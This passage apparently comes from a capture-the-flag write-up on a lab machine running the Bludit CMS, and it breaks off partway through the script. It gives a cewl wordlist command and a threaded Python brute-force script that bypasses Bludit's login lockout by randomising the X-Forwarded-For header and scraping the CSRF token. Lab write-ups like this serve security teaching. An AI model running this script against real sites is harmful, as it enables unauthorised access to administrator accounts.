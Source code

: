 ```bash
cewl 10.10.10.191 -w wordlist.txt # should make ~349 passwords
```

Running the above Python script (using Python3) returns a new error in the following JavaScript:

```javascript
setTimeout(function(){ showAlert("IP address has been blocked<br>Try again in a few minutes") }, 500);
```

It seems like a bruteforce is not possible? Some Googling for this leads to the following post:

- https://rastating.github.io/bludit-brute-force-mitigation-bypass/

It seems like the bypass is just to set the `X_FORWARDED_FOR` HTTP header to a random value for each request to bypass the blacklist:

- https://github.com/bludit/bludit/blob/b1fc6cd0be012c038af7ad83ed2209bf7e976f88/bl-kernel/security.class.php#L108

The Python script now becomes the following:

```python
import re
import sys
import random
import string
import requests
import multiprocessing
import multiprocessing.dummy

USERNAME = 'admin'
TARGET   = 'http://10.10.10.191/admin/login'
WORDLIST = 'wordlist.txt'
PROXIES  = {}
# for debugging with BurpSuite:
# PROXIES  = {
#   'http' : 'http://127.0.0.1:8080/'
# }
HEADERS = {
  'User-Agent': 'Mozilla/5.0',
}

def thread(password):
  password = password.strip()
  s = requests.session()
  r = s.get(TARGET, proxies=PROXIES, headers=HEADERS)
  n = re.findall(r'id="jstokenCSRF" name="tokenCSRF" value="(.*)"', r.text)
  print(f'[+][BLUDIT-KEY = {s.cookies.get_dict()["BLUDIT-KEY"]}][CSRF = {n[0]}] trying {USERNAME}/{password} ...')
  # salt password with a random string of 20 characters/digits
  HEADERS['X-Forwarded-For'] = password + ''.join(random.choice(string.ascii_uppercase + string.ascii_lowercase + string.digits) for x in range(20))
  r = s.post(TARGET, proxies=PROXIES, headers=HEADERS, data={
    'tokenCSRF' : n[0],
    'username' : USERNAME,
    'password' : password,
    'remember' : 'true',
    'save': '',
  })
  if 'Username or password incorrect' not in r.text:
    print(f'[!] FOUND: {USERNAME}/{password}')
    print(r.text)

if __name__ == '__main__':
  wordlist = []
  with open(WORDLIST, 'r', encoding='latin-1') as f:
```